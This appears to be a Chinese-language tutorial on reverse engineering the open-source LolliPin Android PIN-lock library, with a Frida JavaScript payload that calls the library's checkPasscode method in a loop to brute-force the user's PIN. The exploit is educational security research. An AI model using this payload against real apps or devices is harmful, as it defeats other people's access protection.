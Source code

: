 ## APK

Build from [github](https://github.com/OrangeGangsters/LolliPin)

## Ref
http://blog.mdsec.co.uk/2015/04/instrumenting-android-applications-with.html

----

## Local Storage

![](localstorage.png)

PIN code 被加密存放.

## Source Code

![](checkpasscode-1.png)
![](checkpasscode.png)

![](actual-implementation.png)

关键就是这一句

```java

// com.github.orangegangsters.lollipin.lib.managers.AppLockActivity:282
this.mLockManager.getAppLock().checkPasscode(this.mPinCode)
```

再看mLockManager 是如何获得的.

![](mLockManager.png)


## Exploit

于是我们的 frida exploit 就可以利用以下的 js payload进行暴力破解.

```javascript
Java.perform(function () {
   
    var LockManager = Java.use("com.github.orangegangsters.lollipin.lib.managers.LockManager");
    var LockManagerInstance = LockManager.getInstance();
    var AppLock = LockManagerInstance.getAppLock();
 
    for(var i=1230; i<1235; i++)
    {
        var result = AppLock.checkPasscode(i+"");
        send(i + ": " + result);
    }
});
```
## 后记

这个apk跟[hacking-android-apps-with-frida-2](https://www.codemetrix.net/hacking-android-apps-with-frida-2/)不一样. [hacking-android-apps-with-frida-2](https://www.codemetrix.net/hacking-android-apps-with-frida-2/) 由于是一个 crackme, 密码已写进 binary 中, 通过改写程序的 implementation, 让其自动打印个密码. 

这个例子不是 crackme, 不需要写进 binary, 相反, 它是把用户定义的PIN加密后储存在 Local Storage. 由于是加密的, 计算打印出来也没用, 因为你要输入的是加密前的 PIN, 不是加密后的 PIN.